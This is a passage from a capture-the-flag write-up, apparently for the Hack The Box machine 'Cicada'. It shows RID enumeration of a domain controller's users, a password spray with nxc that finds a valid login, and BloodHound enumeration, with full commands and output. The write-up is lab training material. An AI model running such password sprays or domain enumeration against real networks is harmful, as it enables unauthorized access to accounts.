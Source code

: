 ```
SMB         10.129.150.50   445    CICADA-DC        1000: CICADA\CICADA-DC$ (SidTypeUser)
SMB         10.129.150.50   445    CICADA-DC        1101: CICADA\DnsAdmins (SidTypeAlias)
SMB         10.129.150.50   445    CICADA-DC        1102: CICADA\DnsUpdateProxy (SidTypeGroup)
SMB         10.129.150.50   445    CICADA-DC        1103: CICADA\Groups (SidTypeGroup)
SMB         10.129.150.50   445    CICADA-DC        1104: CICADA\john.smoulder (SidTypeUser)
SMB         10.129.150.50   445    CICADA-DC        1105: CICADA\sarah.dantelia (SidTypeUser)
SMB         10.129.150.50   445    CICADA-DC        1106: CICADA\michael.wrightson (SidTypeUser)
SMB         10.129.150.50   445    CICADA-DC        1108: CICADA\david.orelious (SidTypeUser)
SMB         10.129.150.50   445    CICADA-DC        1109: CICADA\Dev Support (SidTypeGroup)
SMB         10.129.150.50   445    CICADA-DC        1601: CICADA\emily.oscars (SidTypeUser)
```

After enumerating through a few thousand, we find a couple usernames.

```
john.smoulder
sarah.dantelia
michael.wrightson
david.orelious
Dev Support
emily.oscars
```
Using the password we found earlier, we can spray this password using nxc with the username list.
```
┌──(tsunami㉿coffee)-[~/Documents/cicada]
└─$ nxc smb 10.129.150.50 -u usernames.txt -p 'Cicada$M6Corpb*@Lp#nZp!8' -d cicada.htb
SMB         10.129.150.50   445    CICADA-DC        [*] Windows Server 2022 Build 20348 x64 (name:CICADA-DC) (domain:cicada.htb) (signing:True) (SMBv1:False) 
SMB         10.129.150.50   445    CICADA-DC        [-] cicada.htb\john.smoulder:Cicada$M6Corpb*@Lp#nZp!8 STATUS_LOGON_FAILURE 
SMB         10.129.150.50   445    CICADA-DC        [-] cicada.htb\sarah.dantelia:Cicada$M6Corpb*@Lp#nZp!8 STATUS_LOGON_FAILURE 
SMB         10.129.150.50   445    CICADA-DC        [+] cicada.htb\michael.wrightson:Cicada$M6Corpb*@Lp#nZp!8 
```
We eventually get a hit on the `michael.wrightson` account.

## michael
Using bloodhound, we can begin enumerating what permissions this account has.
```
┌──(tsunami㉿coffee)-[~/Documents/cicada]
└─$ sudo bloodhound-python -c all -u michael.wrightson -p 'Cicada$M6Corpb*@Lp#nZp!8' -d cicada.htb -dc cicada.htb -ns 10.129.150.50
[sudo] password for tsunami: 
INFO: BloodHound.py for BloodHound LEGACY (BloodHound 4.2 and 4.3)
INFO: Found AD domain: cicada.htb
INFO: Getting TGT for user
WARNING: Failed to get Kerberos TGT. Falling back to NTLM authentication. Error: Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great)
INFO: Connecting to LDAP server: cicada.htb
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 1 computers
INFO: Connecting to LDAP server: cicada.htb
INFO: Found 9 users
INFO: Found 54 groups
INFO: Found 3 gpos
INFO: Found 2 ous
INFO: Found 19 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: CICADA-DC.cicada.htb
INFO: Done in 00M 05S
```
